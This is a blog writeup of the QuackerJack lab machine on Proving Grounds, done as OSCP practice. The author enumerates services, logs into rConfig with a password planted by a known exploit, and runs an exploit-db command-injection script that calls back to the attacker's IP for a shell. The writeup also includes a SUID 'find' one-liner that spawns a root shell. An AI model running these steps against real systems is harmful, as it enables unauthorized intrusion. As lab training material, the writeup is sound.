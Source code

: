 ```yaml
---
layout: writeup
title: QuackerJack - Proving Grounds
date: 2024-07-23 13:32:20 +0300
description: A Writeup of the QuackerJack Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [Linux, LainKusunagi, Python]
---
```


This is a writeup for QuackerJack, which I saw on the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). I kick things off with an nmapAutomator Full scan and check port 80 by entering the IP into firefox. I get the nmap scan back, and it looks like we'll have a lot to go through. 
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
8081/tcp open  blackice-icecap
```

And I do see a webpage for port 80, so I begin a directory scan on that (which doesn't really return anything interesting).
![QuackerJack1.png](/assets/images/QuackerJack/QuackerJack1.png){: .responsive-image}

As I go through the nmap output of open ports, there's a few options that don't really go anywhere either. The FTP server does allow anonymous logins, but it times out before you can access anything. I can authenticate using rcpclient, but I can't find anything especially interesting, particularly in the way of usernames or passwords. I am able to list SMB shares, but can't access anything that stands out. And then there's port 8081, where I quickly find a login page:

![QuackerJack2.png](/assets/images/QuackerJack/QuackerJack2.png){: .responsive-image}

Trying some test logins and admin shows `Invalid password` but user shows `username not found` so we know admin is a user. At that point I search for some exploits and try a few because we know from the screenshot above that we're working with `rConfig Version 3.9.4`. There is an unauthenticated root exploit on exploit-db for that version, but I don't get it working. I also try one for [3.9.5](https://www.exploit-db.com/exploits/48878), but that doesn't immediately appear to work either. While looking around, I see a comment in[this](https://gist.github.com/farid007/9f6ad063645d5b1550298c8b9ae953ff)github page that states that the exploit for 3.9.5 does create a password for the admin user of `Testing1@`. So I try to login with the credentials `admin:Testing1@`, and it works. I hadn't realized that part of the exploit did work. So we have creds now and access to the console. 

![QuackerJack3.png](/assets/images/QuackerJack/QuackerJack3.png){: .responsive-image}

While there is an authenticated command injection exploit on [exploit-db](https://www.exploit-db.com/exploits/48241), I unfortunately get errors on that. Apparently a couple python modules might not match a supported version: 
`urllib3 (1.26.8) or chardet (5.2.0)/charset_normalizer (2.0.12) doesn't match a supported version!` I could try and figure that out, but I've had some issues trying to tweak that, so I keep moving and make a note. 

After an hour or so, I decide it's time to revisit this issue, because honestly, I should know how to solve. That said, I'm not sure the best path to move forward, so I ask ChatGPT. I figure if I do this, I can take notes and learn how to do it in the future. So I do, and it turns out I need to create a python 3 virtual environment, install the supported libraries, and then deactivate later. The commands are as follows:
1. `sudo apt-get install python3-venv`
2. `python3 -m venv myenv`
3. `source myenv/bin/activate
4. `pip install requests urllib3==1.26.8 charset_normalizer==2.0.12` 
5. `python $script.py`
6. `deactivate`

And it works, and now I know! However, it did not solve my problems. I ran the script again without those errors, and I noticed a few more, all ultimately cause by an SSL issue, because we had to use https for port 8081. The error looked like this:

`(Caused by SSLError(SSLCertVerificationError(1, '[SSL: CERTIFICATE_VERIFY_FAILED] certificate verify failed: self-signed certificate (_ssl.c:1006)')))` 

So I simply asked ChatGPT again, and it told me to run these commands to fix the issue. 
1. `export PYTHONWARNINGS="ignore:Unverified HTTPS request"`
2. `export REQUESTS_CA_BUNDLE=""`
3. `export CURL_CA_BUNDLE=""`

And it did, and the command finally worked:
`python3 47982.py https://192.168.242.57:8081 admin Testing1@ 192.168.45.235 80`

And I got the shell. So I checked for SUID binaries using: 
`find / -type f -perm -u=s 2>/dev/null`, and I immediately noticed `find`. A quick trip to gtfo bins says we can run this command to get privileged access, and it won't drop the privileges. 

`find . -exec /bin/sh -p \; -quit`

And it works. 

![QuackerJack4.png](/assets/images/QuackerJack/QuackerJack4.png){: .responsive-image}

Lessons learned: I learned how to use a python virtual environment to download different libraries than the main ones, and I learned how to configure it such that it ignores SSL issues/issues with certs when using HTTPS for sites that aren't properly configured for it. 

Other takeaways: I'm annoyed with myself for using ChatGPT on this box when it's not allowed on the exam, but that said, it's exactly the kind of thing to use ChatGPT for. I didn't know that it was possible to use a temporary virtual environment like that for python, so I didn't know *to* research how to do it. I can't do it on the exam, but hey, now it's in my [OSCP Notes](https://cagrigsby.github.io/oscp_notes/)